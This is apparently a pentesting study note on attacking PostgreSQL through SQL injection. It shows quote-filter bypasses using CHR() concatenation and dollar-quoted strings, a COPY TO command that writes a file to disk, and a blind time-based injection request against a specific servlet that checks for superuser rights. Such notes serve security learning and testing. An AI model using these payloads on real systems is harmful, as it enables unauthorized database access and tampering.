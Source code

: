 ```yaml
---
title: Pwning PostgreSQL
tags:
  - advanced
  - web-app
  - pentesting
  - sql
  - postgresql
---
```


## Query quirks

Assume we've discovered a SQL injection vulnerability in a PostgreSQL database
and we want to include string data in our query, but traditional `'` and `"`
characters are being filtered. Some useful tips are that we can use the
following PostgreSQL language features to provide arbitrary characters or bypass
quotation restrictions.

### CHR and string concatenation

The `CHR()` and `||` operators allow you to provide arbitrary characters and
concatenate them into a string, for example:

```sql
CREATE TABLE AWAE (offsec text); INSERT INTO AWAE(offsec) VALUES (CHR(65)||CHR(87)||CHR(65)||CHR(69));
SELECT * from AWAE;
```

### Dollar signs and tags

Referencing
[**4.1.2.4** of the PostgreSQL syntax](https://www.postgresql.org/docs/9.2/sql-syntax-lexical.html)
documentation, we can provide `$$` to specify string constants. For example,
with the right permissions, we can use this to write commands to disk:

```sql
CREATE TEMP TABLE AWAE(offsec text);INSERT INTO AWAE(offsec) VALUES ($$test$$);
COPY AWAE(offsec) TO $$C:\Program Files (x86)\PostgreSQL\9.2\data\test.txt$$;
```

## Blind injection and reflections

Assume we think we've found a SQL injection vulnerability in the source code of
a target application, but, because of the nature of the endpoint we're injecting
into, the output of our SQL queries aren't returned to us. If that's the case,
we can use built-in PostgreSQL methods like `sleep(int)` to determine if we have
arbitrary query execution. Here's an example:

```sql
GET /servlet/AMUserResourcesSyncServlet?ForMasRange=1&userId=1;SELECT+case+when+(SELECT+current_setting($$is_superuser$$))=$$on$$+then+pg_sleep(10)+end;--+
```
